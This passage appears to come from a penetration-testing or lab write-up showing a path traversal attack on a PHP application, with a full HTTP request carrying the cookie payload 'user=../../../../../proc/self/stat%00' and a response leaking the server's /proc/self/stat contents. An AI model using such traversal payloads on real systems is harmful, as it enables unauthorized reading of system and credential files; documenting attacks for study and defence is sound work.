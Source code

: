 <p style="text-align:justify;">
Moving further, we have sent an HTTP request in order to see if we can read the <code  style="background-color: lightgrey; color:black;">/proc/self/stat</code> file. As seen at the following request / response pair we indeed have access at the <code  style="background-color: lightgrey; color:black;">/proc/self/stat</code> file
</p>

<i><b>HTTP Request :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6b82a05ec984697da862a3b2acf884c4; <span style="color:#cd0000;"><b>user=../../../../../proc/self/stat%00</b></span>
Connection: close
</pre>

<i><b>HTTP Response :</b></i>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sat, 26 Dec 2020 21:18:10 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 977

&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
[....]
&lt;p>&lt;pre><span style="color:#cd0000;"><b>6642 (httpd) R 6637 6637 6637 0 -1 4202816 3753497 0 0 0 687 2347 0 0 15 0 1 0 427860 18386944 1978 4294967295 7602176 7912312 3217351552 3217335172 6571010 0 0 16781312 201344619 0 0 0 17 0 0 0 0</b></span>
&lt;/pre>&lt;/p>&lt;/div>
&lt;/body>
&lt;/html>
</pre>
